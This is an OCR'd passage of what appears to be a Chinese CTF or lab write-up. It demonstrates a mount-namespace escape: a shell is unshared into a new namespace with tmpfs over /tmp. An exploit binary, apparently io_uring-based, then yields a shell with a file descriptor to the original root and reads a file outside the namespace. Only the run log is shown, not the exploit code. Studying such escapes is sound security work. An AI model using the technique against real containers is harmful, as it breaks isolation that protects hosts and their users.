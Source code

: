 ```
/home/pwn # ls -al /proc/$$/ns |grep mnt
lrwxrwxrwx    1 root     0                0 Apr 15 02:56 mnt -&gt; mnt:[4026532131]
/home/pwn # mount -t tmpfs none /tmp
/home/pwn # ls /tmp
/home/pwn # /exp
submitted 1, getevents done
cq_tail = 1
result: 5
launching shell
sh: can't access tty; job control turned off
/home/pwn # echo $$
223
/home/pwn # pstree -p |grep sh
init(1)---rcS(171)---sh(206)---sh(213)---exp(220)---sh(223)-+-grep(225)
/home/pwn # ls -al /proc/$$/ns |grep mnt
lrwxrwxrwx    1 root     0                0 Apr 15 02:57 mnt -&gt; mnt:[4026532131]
/home/pwn # ls -al /proc/$$/fd/
total 0
dr-x------    2 root     0                0 Apr 15 02:58 .
dr-xr-xr-x    9 root     0                0 Apr 15 02:57 ..
lrwx------    1 root     0               64 Apr 15 02:58 0 -&gt; /dev/console
lrwx------    1 root     0               64 Apr 15 02:58 1 -&gt; /dev/console
lrwx------    1 root     0               64 Apr 15 02:58 2 -&gt; /dev/console
lr-x------    1 root     0               64 Apr 15 02:58 4 -&gt; /
l---------    1 root     0               64 Apr 15 02:58 5 -&gt; /
/home/pwn # cat /proc/$$/fd/5/tmp/real
aaaa
/home/pwn # C#
```

首先创建一个 `/tmp/real` 文件，写入`aaaa`, 看一下当前shell的 mount namespace， 记住他的id为`4026531840`,

```
/home/pwn # echo aaaa &gt; /tmp/real
/home/pwn # echo $$
206
/home/pwn # ls -al /proc/$$/ns |grep mnt
lrwxrwxrwx    1 root     0                0 Apr 15 02:55 mnt -&gt; mnt:[4026531840]
/home/pwn # pstree -p |grep sh
init(1)---rcS(171)---sh(206)-+-grep(212)
```

接着用 `unshare` 创建一个新的 mount namespace, 然后mount 上 tmpfs, 可以看到namespace的 id是`4026532131`，和原来的不同， 这个时候就看不到原来namespace的目录下的东西了(想一下docker的隔离),

```
/home/pwn # unshare -m --uts /bin/sh
/bin/sh: can't access tty; job control turned off
/home/pwn # echo $$
213
/home/pwn # pstree -p |grep sh
init(1)---rcS(171)---sh(206)---sh(213)-+-grep(215)
/home/pwn # ls -al /proc/$$/ns |grep mnt
lrwxrwxrwx    1 root     0                0 Apr 15 02:56 mnt -&gt; mnt:[4026532131]
/home/pwn # mount -t tmpfs none /tmp
/home/pwn # ls /tmp
```
